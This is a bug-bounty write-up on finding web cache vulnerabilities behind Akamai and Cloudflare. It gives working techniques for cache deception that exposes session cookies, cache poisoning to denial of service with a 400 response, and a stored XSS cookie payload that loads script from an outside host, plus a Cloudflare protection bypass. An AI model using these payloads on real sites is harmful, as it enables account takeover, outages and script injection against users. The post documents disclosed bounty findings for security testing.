https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9

![img.png](img.png)

I will be sharing my “Methodology” from start to end when looking for Cache Issues, then I will share recent Real-Cases Scenarios with their respective Bounties.

It is worth sharing that I don’t use Automated tools to find these issues. In fact the Only Automated Tool I use for my general testing is SQLmap for SQLi.


Methodology

>If the application does not have a login functionality, but using Akamai CDN, these are my steps:

- Send the first request to Repeater

![img_1.png](img_1.png)

- Check if the server is caching normal requests (you can tell this by the response header “Server-Timing: cdn-cache; desc=HIT”)

![img_2.png](img_2.png)

- Add an Illegal Request Header into the request

![img_3.png](img_3.png)

- If the response was successfully cached, when you open the URL on any browser, you should get a 400 Bad Request

![img_4.png](img_4.png)


>If the Application does have a Login Functionality

- Create an account
- Check if any sensitive information is disclosed in any page (e.g Session Token)

![img_5.png](img_5.png)

- Send the request to Repeater
- Add a Cacheable Extension (.js , .css) at the end of the URL and see if it gives a 200 OK Response


![img_6.png](img_6.png)


- Open the Modified URL using your authenticated Account


![img_7.png](img_7.png)

- Open the Same URL using curl or Private Web Browser Window

![img_8.png](img_8.png)

- If the Token was successfully Cached you should see the Token in the response
![img_9.png](img_9.png)


>If the Application is using Cloudflare CDN


Illegal headers won’t work, and now most Cloudflare Customers are using [Cache Deception Armor](https://developers.cloudflare.com/cache/about/cache-deception-armor/)

I was able to bypass this protection using .avif file which is a really unknown extension file.


https://hackerone.com/reports/1391635


However, there are some sites that don’t have this protection activated and you can perfectly test for Cache Poisoning/Deception


>Cache Deception To Account Takeover → Bounty = $1,500


## Summary:
All cookies (even HTTPonly ones) are being disclosed in `https://host.com/app/conversation/1.js`

if an authenticated user visits this URL all their cookies will be stored in the cache

An attacker can then extract the cookie and hijack their Session

- Note:

Sometimes, if the response is a “404 Not found” Akamai only caches the response for less than 10 seconds, making this harder for the attacker. The attacker needs to be quick in this case, however, if Akamai Detects a 200 Ok Response, the response will last for at least 24 Hours.

- Tip & Trick

In some Applications, if you add a Semicolon (;) before the extension it may give you a 200 Ok response

e.g

`/xxxx/xxxxxx/;.js`

Response

`HTTP/2 200 Ok`

>Cache Poisoning To DoS → Bounty = $1,000

## Summary:
In Akamai CDN, If we send a backslash \ as a header, the server will respond with a 400 Bad Request Response

Request:

```
GET /products/xxx/xxxx/xxx/?test HTTP/2
Host: www.host.com
\:
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
```

Response:
```
HTTP/2 400 Bad Request
Content-Type: text/html;charset=iso-8859-1
Content-Length: 70
Cache-Control: max-age=297
Expires: Thu, 21 Jul 2022 16:17:54 GMT
Date: Thu, 21 Jul 2022 16:12:57 GMT
Server-Timing: cdn-cache; desc=HIT
Server-Timing: edge; dur=32
Server-Timing: origin; dur=147
Strict-Transport-Security: max-age=86400
Ak-Uuid: 0.bc85d817.1658419977.1592c61
```

This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like

`www.host.com/products/*`

`www.host.com/*`

etc..

It becomes a very impactful bug.

- Tip & Trick
Akamai has a workaround for this exploit, by making the 400 response to only last 5 seconds in the cache, however, an attacker can send null payloads using intruder in burp, so that the same 400 response gets cached forever

![img_10.png](img_10.png)

> Cache Poisoning To Stored XSS → Bounty = $1,000


## Summary:

There is a XSS via then_vis Cookie Parameter

Since the server caches this response, an attacker could be able to save a XSS Payload

There is a strong Filter (and WAF) that blocks most payloads, but since the site is using Jquery, an attacker can use the $.getScript Function to exploit this.


Request

```
GET /xxxx/xx-xx.otf?triagethiss HTTP/2
Host: www.host.com
Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-xss,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers

```

Response


```js
<script>
...
Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
....
</script>

```
- Tip & Trick

Test for XSS on any Request Header, Cookies, Custom Headers, X-Forwared-* Headers
